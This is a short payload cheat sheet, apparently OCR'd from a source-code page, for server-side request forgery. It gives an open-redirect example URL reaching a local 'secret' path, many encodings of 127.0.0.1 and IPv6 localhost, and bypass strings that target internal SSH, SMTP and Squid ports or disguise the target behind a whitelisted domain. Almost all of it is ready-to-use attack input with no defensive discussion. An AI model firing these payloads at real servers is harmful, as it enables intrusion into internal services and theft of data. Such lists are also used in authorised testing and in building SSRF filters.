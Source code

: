 ### Open Redirect SSRF Bypass

Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example:

```
/foo/bar?vuln-function=http://127.0.0.1:8888/secret


```

### Basic locahost bypass attempts

Localhost bypass:

```
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001


```

various bypasses:

```
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
```